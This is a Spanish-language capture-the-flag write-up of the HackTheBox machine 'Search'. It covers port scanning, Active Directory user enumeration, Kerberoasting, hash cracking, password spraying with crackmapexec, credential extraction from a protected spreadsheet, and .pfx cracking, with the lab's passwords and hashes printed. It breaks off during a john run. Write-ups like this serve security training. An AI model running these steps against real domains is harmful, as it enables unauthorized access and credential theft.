


# Search <!-- omit from toc -->

Write-up de la máquina Search de [HackTheBox](hackthebox.com).


## Tabla de Contenido <!-- omit from toc -->

- [Introducción](#introducción)
  - [Técnicas vistas / Tags](#técnicas-vistas--tags)
  - [Estadísticas](#estadísticas)
- [Reconocimiento](#reconocimiento)
  - [Escaneo de host](#escaneo-de-host)
    - [Escaneo completo de puertos](#escaneo-completo-de-puertos)
    - [Escaneo específico](#escaneo-específico)
- [Enumeración](#enumeración)
  - [Servicios](#servicios)
    - [http - 80](#http---80)
      - [Manual](#manual)
      - [ffuf](#ffuf)
- [Explotación](#explotación)
  - [Kerberoasting](#kerberoasting)
    - [Pasos previos | Preparación](#pasos-previos--preparación)
    - [Ejecución](#ejecución)
  - [Password Spraying](#password-spraying)
    - [web\_svc → edgar.jacobs](#web_svc--edgarjacobs)
    - [edgar.jacobs → sierra.frye](#edgarjacobs--sierrafrye)
- [Post Explotación](#post-explotación)
  - [Enumeración](#enumeración-1)
  - [Escalación de privilegios](#escalación-de-privilegios)
    - [sierra.frya → tristan.davies](#sierrafrya--tristandavies)
- [Notas adicionales](#notas-adicionales)
- [Referencias](#referencias)


## Introducción

### Técnicas vistas / Tags

- Information Leakage - Password in picture
- RPC Enumeration (rpcclient)
- Ldap Enumeration (ldapdomaindump)
- Bloodhound Enumeration
- Kerberoasting Attack (GetUserSPNs.py)
- SMB Password Spray Attack (Crackmapexec)
- Unprotecting password-protected Excel (Remove Protection)
- Playing with pfx certificates
- Gaining access to Windows PowerShell Web Access
- Abusing ReadGMSAPassword privilege
- Abusing GenericAll privilege (Resetting a user's password)
- Gaining access with wmiexec

### Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Search](https://www.hackthebox.com/home/machines/profile/422) |
| OS | Windows |
| Dificultad oficial | Hard |
| Dificultad de comunidad |  |
| Puntos | 40 |
| Creadores | [dmw0ng](https://www.hackthebox.com/home/users/profile/610173) |

## Reconocimiento

### Escaneo de host

#### Escaneo completo de puertos

```bash
└─$ nmap -T5 --min-rate 5000 -v -p- -open -n -Pn -oG nmap/all_ports $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-03 21:51 EDT
Initiating Connect Scan at 21:51
Scanning 10.10.11.129 [65535 ports]
Discovered open port 139/tcp on 10.10.11.129
Discovered open port 80/tcp on 10.10.11.129
Discovered open port 53/tcp on 10.10.11.129
Discovered open port 443/tcp on 10.10.11.129
Discovered open port 445/tcp on 10.10.11.129
Discovered open port 135/tcp on 10.10.11.129
Discovered open port 8172/tcp on 10.10.11.129
Discovered open port 49710/tcp on 10.10.11.129
Discovered open port 9389/tcp on 10.10.11.129
Discovered open port 88/tcp on 10.10.11.129
Discovered open port 49675/tcp on 10.10.11.129
Discovered open port 3269/tcp on 10.10.11.129
Discovered open port 49699/tcp on 10.10.11.129
Discovered open port 3268/tcp on 10.10.11.129
Discovered open port 49667/tcp on 10.10.11.129
Discovered open port 464/tcp on 10.10.11.129
Discovered open port 49676/tcp on 10.10.11.129
Discovered open port 49737/tcp on 10.10.11.129
Discovered open port 389/tcp on 10.10.11.129
Discovered open port 593/tcp on 10.10.11.129
Discovered open port 636/tcp on 10.10.11.129
Completed Connect Scan at 21:51, 26.37s elapsed (65535 total ports)
Nmap scan report for 10.10.11.129
Host is up (0.076s latency).
Not shown: 65514 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
8172/tcp  open  unknown
9389/tcp  open  adws
49667/tcp open  unknown
49675/tcp open  unknown
49676/tcp open  unknown
49699/tcp open  unknown
49710/tcp open  unknown
49737/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.40 seconds
```

#### Escaneo específico

```bash
└─$ nmap -sCV -p 53,80,88,135,139,389,443,445,464,593,636,3268,3269,8172,9389,49667,49675,49676,49699,49710,49737 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-03 21:54 EDT
Nmap scan report for 10.10.11.129
Host is up (0.27s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Search &mdash; Just Testing IIS
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-04 01:54:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2023-05-04T01:56:19+00:00; 0s from scanner time.
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: 2023-05-04T01:56:18+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
| tls-alpn:
|_  http/1.1
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Search &mdash; Just Testing IIS
|_http-server-header: Microsoft-IIS/10.0
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2023-05-04T01:56:18+00:00; 0s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-05-04T01:56:18+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2023-05-04T01:56:18+00:00; 0s from scanner time.
8172/tcp  open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=WMSvc-SHA2-RESEARCH
| Not valid before: 2020-04-07T09:05:25
|_Not valid after:  2030-04-05T09:05:25
|_ssl-date: 2023-05-04T01:56:18+00:00; 0s from scanner time.
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
49737/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: RESEARCH; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2023-05-04T01:55:42
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.17 seconds
```

## Enumeración

### Servicios

#### http - 80

##### Manual

La página principal muestra personas de la empresa, las cuales podrían representar potenciales nombres de usuario dado que se puede asumir que trata de un Domain Controller dados los puertos abiertos (53,88).


Adicionalmente se identificó dentro de la sección que habla acerca de los servicios de la empresa una imagen con anotaciones en ella.


Al prestar atención a las notas escritas, se puede identificar el nombre de dos personas y una posible contraseña.


1. `IsolationIsKey?`.

##### ffuf

Por otro lado, por medio de `ffuf` se identificaron las siguientes rutas de las cuales a pesar de no tener acceso sobresalen `/staff` y `/certsrv`.

```bash
└─$ ffuf -c -ic -u "http://10.10.11.129/FUZZ" -w /usr/share/wordlists/dirb/common.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.129/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 44982, Words: 13260, Lines: 1030, Duration: 213ms]
certenroll              [Status: 301, Size: 154, Words: 9, Lines: 2, Duration: 142ms]
certsrv                 [Status: 401, Size: 1293, Words: 81, Lines: 30, Duration: 206ms]
css                     [Status: 301, Size: 147, Words: 9, Lines: 2, Duration: 597ms]
fonts                   [Status: 301, Size: 149, Words: 9, Lines: 2, Duration: 72ms]
images                  [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 72ms]
Images                  [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 72ms]
index.html              [Status: 200, Size: 44982, Words: 13260, Lines: 1030, Duration: 73ms]
js                      [Status: 301, Size: 146, Words: 9, Lines: 2, Duration: 546ms]
staff                   [Status: 403, Size: 1233, Words: 73, Lines: 30, Duration: 3971ms]
:: Progress: [4614/4614] :: Job [1/1] :: 263 req/sec :: Duration: [0:00:34] :: Errors: 0 ::
```

## Explotación

### Kerberoasting

#### Pasos previos | Preparación

Dados los nombres identificados se realizó una lista con variaciones de nombres usuarios que suelen presentarse en entornos de directorio activo o que suelen ser comunes en empresas. Para corroborar aquellos válidos contra la máquina.

```text
Keely Lyons
Dax Santiago
Sierra Frye
Kyla Stewart
Kaiara Spencer
Dave Simpson
Ben Thompson
Chris Stewart
Phisher Walter
Hope Sharp
Keely.Lyons
Dax.Santiago
Sierra.Frye
Kyla.Stewart
Kaiara.Spencer
Dave.Simpson
Ben.Thompson
Chris.Stewart
Phisher.Walter
Hope.Sharp
KLyons
DSantiago
SFrye
KStewart
KSpencer
DSimpson
BThompson
CStewart
PWalter
HSharp
KeelyL
DaxS
SierraF
KylaS
KaiaraS
DaveS
BenT
ChrisS
PhisherW
HopeS
```

```bash
└─$ /opt/tools/windows/active_directory/kerbrute/kerbrute userenum content/users.txt --dc search.htb -d search.htb

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 05/05/23 - Ronnie Flathers @ropnop

2023/05/05 16:27:17 >  Using KDC(s):
2023/05/05 16:27:17 >   search.htb:88

2023/05/05 16:27:17 >  [+] VALID USERNAME:       Sierra.Frye@search.htb
2023/05/05 16:27:17 >  [+] VALID USERNAME:       Dax.Santiago@search.htb
2023/05/05 16:27:17 >  [+] VALID USERNAME:       Keely.Lyons@search.htb
2023/05/05 16:27:17 >  [+] VALID USERNAME:       Hope.Sharp@search.htb
2023/05/05 16:27:18 >  Done! Tested 40 usernames (4 valid) in 0.724 seconds
```

#### Ejecución

Habiendo identificado el patrón y el usuario `Hope.Sharp` como válido, se intentó autenticar contra otros servicios disponibles sin éxito por lo que se ejecutó el script `impacket-GetUserSPNs` para buscar cuentas cuentas de servicio asociadas, obteniendo así el hash de la cuenta `web_svc`.

```bash
└─$ impacket-GetUserSPNs 'search.htb/Hope.Sharp:IsolationIsKey?' -dc-ip 10.10.11.129 -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName               Name     MemberOf  PasswordLastSet             LastLogon  Delegation
---------------------------------  -------  --------  --------------------------  ---------  ----------
RESEARCH/web_svc.search.htb:60001  web_svc            2020-04-09 08:59:11.329031  <never>

$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$e4e91c0ded69711c5e46663a3d941033$bc25caca76a25319cd9f4f512b04e8ef8f295a34ffa3190c480d8f19bfd256f33b7a875a28c0fade7eec04932cb51d809cab487208a8ad0a062d68a53bc7dd86f0a5504d4e3b8cfe15360868d812e057835654ed3a6e2e5c7af2b2a2e15d93266b7502f36b1872bdd65f798696bb7c3caf1cbebd6bd9b3e425a66cd7c55e56841cc8c7fbbfca30d1b6f97cc62997d979e2b65d3289ca9e84d6af847e3280561e246cedceb3e876080f30b98a799c0ce0c962387bd0c849353efbb16d795609cb4a5da2f63b19be19cb4d44b5e1b2f1dd1a86375851d15c8144f83dc611541131ab82081306cb4e5894e327f28ec9d69fae104e95db6da18cc21f2375ec811a99e21de24ea6aeb1eb3c82e456ac52e561c93161f2b991f4b4d3ee0855df4efa4dfb72bda2834fe378cf61d3f2aba87f8fbfcc9bb4e96577cf7959ab396de7c70a97d3f979f4f4768e76b19ed7d7877407c4981bc10c5c0ad458d070f7840b4ff59c8433451dbf8a4141b732ef4415d694fbe1108f32d9e0b67256ba791a5c96591b151cabe4d1918f0e19bb3e5682c62104d82354eae828d72b08dca8f82856cc9d99ee4b98ab619be0b1863de1efd1711f9dee6a7b4bc25082ce1bf05b55e2e17110e802164b32d18e7dd3a3a4991ff802ddb0643c14a8bcb9d481d14c97018c4c771cf08f7b0ea0e1646604a99a29dcae4a3b31f75df53146c27c3a5ef4fdaa1b4bf9fa25f1e212e0ff3384fd90c611c5da3dfd006f49ccc2d5ac3fdad439a4f7136e4f48812ff1c76b99de5b5697361604ac9a252c23eb723a25d23542d995d2c38e44f7b0aa29f489dc6ded4615596b1a2ceb79973a8a5972d0d67235c43c25b9d4eeee0dedba4ce0946f58ca33dc80c35e1b09139bd52a6a66219761e734a261f7ed4d2078bb6eaba7d463ebfe392c814b58623d16903d0e3e6ef3e14dd52e37dbe461dbc4d6db13d75bd9022de0855052efdb50d7f0fa599e83188c2cd3d2ce452854f9231ecf8f733f79c46ab3196707ae4b792ccd12688866444f26db4554a25ed89d4f69864adb9bcc9ca167d1fabd2da127dd4e09e1928025f0457218097658f61f834cacd6b6b9a9ba8809eafdd1a39860f8926c29b5a3658e88ee55cd2ee915f1128eab3f6d14e58e39eb934759abc0075c331e141dcf36944bae4b823f531ebeefd62d1bc12fa7c79006030efb023a9ed8704833d6eb8223f00d75430309046d2ba7e8d0ebbe5d35661a6e0ad96709d3c0aa0bf1ca85c0ea91c153c70cd83a79302637b02a0e36eebf8b565d5ce1c53546d75ac2471b0d6784e5e59cbbaed80d0441493cd67e8e554259671ef2f3a46b61681eb2c92f7b10846901d6cf7391e92409d3b000eee04ed6d2cbe200f7c2ce0297cd044fbfa60f050d73d4eaa055a740eeb6a109a0e912c0d8f28832ad198200ad195e71a5218a652717ba4a76a06e73037fa60e8a31c11e6a49d931f427
```

Una vez obtenido el hash se hizo uso de `hashcat` para intentar crackear el hash obtenido, obteniendo como resultado la contraseña `@3ONEmillionbaby`.

```powershell
.\hashcat -m 13100 .\hope_sharp.hash .\rockyou.txt
# Data truncada
@3ONEmillionbaby
```

Se encontró que las credenciales eran válidas para el servicio `smb`. Al no tener escritura en ningún directorio, se pudieron identificar otros usuarios existentes dentro del directorio `RedirectedFolders$`.

```bash
└─$ smbclient \\\\10.10.11.129\\RedirectedFolders$ -U 'web_svc'
Password for [WORKGROUP\web_svc]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  Dc        0  Wed May  3 23:40:56 2023
  ..                                 Dc        0  Wed May  3 23:40:56 2023
  abril.suarez                       Dc        0  Tue Apr  7 14:12:58 2020
  Angie.Duffy                        Dc        0  Fri Jul 31 09:11:32 2020
  Antony.Russo                       Dc        0  Fri Jul 31 08:35:32 2020
  belen.compton                      Dc        0  Tue Apr  7 14:32:31 2020
  Cameron.Melendez                   Dc        0  Fri Jul 31 08:37:36 2020
  chanel.bell                        Dc        0  Tue Apr  7 14:15:09 2020
  Claudia.Pugh                       Dc        0  Fri Jul 31 09:09:08 2020
  Cortez.Hickman                     Dc        0  Fri Jul 31 08:02:04 2020
  dax.santiago                       Dc        0  Tue Apr  7 14:20:08 2020
  Eddie.Stevens                      Dc        0  Fri Jul 31 07:55:34 2020
  edgar.jacobs                       Dc        0  Thu Apr  9 16:04:11 2020
  Edith.Walls                        Dc        0  Fri Jul 31 08:39:50 2020
  eve.galvan                         Dc        0  Tue Apr  7 14:23:13 2020
  frederick.cuevas                   Dc        0  Tue Apr  7 14:29:22 2020
  hope.sharp                         Dc        0  Thu Apr  9 10:34:41 2020
  jayla.roberts                      Dc        0  Tue Apr  7 14:07:00 2020
  Jordan.Gregory                     Dc        0  Fri Jul 31 09:01:06 2020
  payton.harmon                      Dc        0  Thu Apr  9 16:11:39 2020
  Reginald.Morton                    Dc        0  Fri Jul 31 07:44:32 2020
  santino.benjamin                   Dc        0  Tue Apr  7 14:10:25 2020
  Savanah.Velazquez                  Dc        0  Fri Jul 31 08:21:42 2020
  sierra.frye                        Dc        0  Wed Nov 17 20:01:46 2021
  trace.ryan                         Dc        0  Thu Apr  9 16:14:26 2020

                3246079 blocks of size 4096. 530782 blocks available
```

### Password Spraying

#### web_svc &rarr; edgar.jacobs

Posteriormente se hizo uso de `crackmapexec` para hacer password spraying con las cuentas y contraseñas obtenidas. Identificando la credenciales `edgar.jacobs:@3ONEmillionbaby` como válidas.

```bash
└─$ crackmapexec ldap 10.10.11.129 -u content/valid_users_2.txt -p content/pass.txt --continue-on-success
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\abril.suarez:IsolationIsKey?
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\abril.suarez:@3ONEmillionbaby
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Angie.Duffy:IsolationIsKey?
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Angie.Duffy:@3ONEmillionbaby
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Antony.Russo:IsolationIsKey?
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Antony.Russo:@3ONEmillionbaby
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\belen.compton:IsolationIsKey?
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\belen.compton:@3ONEmillionbaby
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Cameron.Melendez:IsolationIsKey?
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Cameron.Melendez:@3ONEmillionbaby
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\chanel.bell:IsolationIsKey?
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\chanel.bell:@3ONEmillionbaby
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Claudia.Pugh:IsolationIsKey?
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Claudia.Pugh:@3ONEmillionbaby
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Cortez.Hickman:IsolationIsKey?
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Cortez.Hickman:@3ONEmillionbaby
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\dax.santiago:IsolationIsKey?
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\dax.santiago:@3ONEmillionbaby
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Eddie.Stevens:IsolationIsKey?
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Eddie.Stevens:@3ONEmillionbaby
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\edgar.jacobs:IsolationIsKey?
LDAP        10.10.11.129    389    RESEARCH         [+] search.htb\edgar.jacobs:@3ONEmillionbaby
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\Edith.Walls:IsolationIsKey?
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\Edith.Walls:@3ONEmillionbaby
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\eve.galvan:IsolationIsKey?
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\eve.galvan:@3ONEmillionbaby
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\frederick.cuevas:IsolationIsKey?
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\frederick.cuevas:@3ONEmillionbaby
LDAP        10.10.11.129    389    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey?
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\hope.sharp:@3ONEmillionbaby
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\jayla.roberts:IsolationIsKey?
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\jayla.roberts:@3ONEmillionbaby
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\Jordan.Gregory:IsolationIsKey?
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\Jordan.Gregory:@3ONEmillionbaby
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\payton.harmon:IsolationIsKey?
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\payton.harmon:@3ONEmillionbaby
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\Reginald.Morton:IsolationIsKey?
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\Reginald.Morton:@3ONEmillionbaby
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\santino.benjamin:IsolationIsKey?
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\santino.benjamin:@3ONEmillionbaby
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\Savanah.Velazquez:IsolationIsKey?
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\Savanah.Velazquez:@3ONEmillionbaby
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\sierra.frye:IsolationIsKey?
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\sierra.frye:@3ONEmillionbaby
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\trace.ryan:IsolationIsKey?
LDAP        10.10.11.129    389    RESEARCH         [-] search.htb\trace.ryan:@3ONEmillionbaby
```

Una vez obtenido el acceso se pudo ingresar al folder correspondiente del usuario, encontrando el archivo `Phishing_Attempt.xlsx` dentro de la carpeta de escritorio.

```bash
└─$ smbclient \\\\10.10.11.129\\RedirectedFolders$ -U 'edgar.jacobs'
Password for [WORKGROUP\edgar.jacobs]:
Try "help" to get a list of possible commands.
smb: \> cd edgar.jacobs\
smb: \edgar.jacobs\> dir
  .                                  Dc        0  Thu Apr  9 16:04:11 2020
  ..                                 Dc        0  Thu Apr  9 16:04:11 2020
  Desktop                           DRc        0  Mon Aug 10 06:02:16 2020
  Documents                         DRc        0  Mon Aug 10 06:02:17 2020
  Downloads                         DRc        0  Mon Aug 10 06:02:17 2020

                3246079 blocks of size 4096. 525988 blocks available
smb: \edgar.jacobs\> cd desktop
smb: \edgar.jacobs\desktop\> dir
  .                                 DRc        0  Mon Aug 10 06:02:16 2020
  ..                                DRc        0  Mon Aug 10 06:02:16 2020
  $RECYCLE.BIN                     DHSc        0  Thu Apr  9 16:05:29 2020
  desktop.ini                      AHSc      282  Mon Aug 10 06:02:16 2020
  Microsoft Edge.lnk                 Ac     1450  Thu Apr  9 16:05:03 2020
  Phishing_Attempt.xlsx              Ac    23130  Mon Aug 10 06:35:44 2020

                3246079 blocks of size 4096. 525913 blocks available
```

#### edgar.jacobs &rarr; sierra.frye

Después de descargar el archivo y descromprimirlo se intentó buscar información relevante dentro de los archivos correspondientes.

```bash
└─$ cp Phishing_Attempt.xlsx Phishing_Attempt.zip

└─$ unzip Phishing_Attempt.zip
Archive:  Phishing_Attempt.zip
  inflating: [Content_Types].xml
  inflating: _rels/.rels
  inflating: xl/workbook.xml
  inflating: xl/_rels/workbook.xml.rels
  inflating: xl/worksheets/sheet1.xml
  inflating: xl/worksheets/sheet2.xml
  inflating: xl/theme/theme1.xml
  inflating: xl/styles.xml
  inflating: xl/sharedStrings.xml
  inflating: xl/drawings/drawing1.xml
  inflating: xl/charts/chart1.xml
  inflating: xl/charts/style1.xml
  inflating: xl/charts/colors1.xml
  inflating: xl/worksheets/_rels/sheet1.xml.rels
  inflating: xl/worksheets/_rels/sheet2.xml.rels
  inflating: xl/drawings/_rels/drawing1.xml.rels
  inflating: xl/charts/_rels/chart1.xml.rels
  inflating: xl/printerSettings/printerSettings1.bin
  inflating: xl/printerSettings/printerSettings2.bin
  inflating: xl/calcChain.xml
  inflating: docProps/core.xml
  inflating: docProps/app.xml
```

Encontrando en la ruta `xl/worksheets/sheet2.xml`, la cual desde la interfaz de usuario se encuentra protegida y no se permite ver la columna `C` de la segunda página, otros nombres de usuario y contraseñas que se pudieran usar para estos nuevos o los existentes.

```
# Usuarios:

Bobby.Wolf
Margaret.Robinson
Scarlett.Parks
Eliezer.Jordan
Hunter.Kirby
Annabelle.Wells
Jeramiah.Fritz
Abby.Gonzalez
Joy.Costa
Vincent.Sutton

# Contraseñas:

//51+mountain+DEAR+noise+83//
++47|building|WARSAW|gave|60++
!!05_goes_SEVEN_offer_83!!
~~27%when%VILLAGE%full%00~~
==95~pass~QUIET~austria~77==
//61!banker!FANCY!measure!25//
??40:student:MAYOR:been:66??
&amp;&amp;75:major:RADIO:state:93&amp;&amp;
**30*venus*BALL*office*42**
;;36!cried!INDIA!year!50;;
..10-time-TALK-proud-66..
??47^before^WORLD^surprise^91??
**24&amp;moment&amp;BRAZIL&amp;members&amp;66**
$$49=wide=STRAIGHT=jordan=28$$18
```

Por lo que nuevamente se realizó un password spraying del compendio de usuarios agregando las nuevas contraseñas identificadas. Encontrando las credenciales `sierra.frye:$$49=wide=STRAIGHT=jordan=28$$18` como válidas.

```bash
└─$ crackmapexec ldap 10.10.11.129 -u valid_users_2.txt -p pass_2.txt --continue-on-success
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
# Data truncada
LDAP        10.10.11.129    389    RESEARCH         [+] search.htb\sierra.frye:$$49=wide=STRAIGHT=jordan=28$$18
```

Dentro de la carpeta del usuario en el servicio de `smb`, se identificaron los archivos `search-RESEARCH-CA.p12` y `staff.pfx`.

```bash
└─$ smbclient \\\\10.10.11.129\\RedirectedFolders$ -U 'sierra.frye'
Password for [WORKGROUP\sierra.frye]:
Try "help" to get a list of possible commands.
smb: \> cd sierra.frye\
...
smb: \sierra.frye\downloads\backups\> dir
  .                                 DHc        0  Mon Aug 10 16:39:17 2020
  ..                                DHc        0  Mon Aug 10 16:39:17 2020
  search-RESEARCH-CA.p12             Ac     2643  Fri Jul 31 11:04:11 2020
  staff.pfx                          Ac     4326  Mon Aug 10 16:39:17 2020

                3246079 blocks of size 4096. 533816 blocks available
```

Después de indagar acerca de su uso, se encontró que es posible crackear el `.pfx` por lo que haciendo uso de `pfx2john` se extrajo/generó el hash correspondiente para posteriormente hacer uso de `john` para crackearlo. Encontrando así la passphrase `misspissy`.

```bash
└─$ pfx2john staff.pfx > staff_pfx_hash

└─$ catn staff_pfx_hash
staff.pfx:$pfxng$1$20$2000$20$ab06d852d1875d818341c5737782c7117277265e$308210873082062006092a864886f70d010701a08206110482060d3082060930820605060b2a864886f70d010c0a0102a08204fe308204fa301c060a2a864886f70d010c0103300e0408cc8cfc26a5...

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt staff_pfx_hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
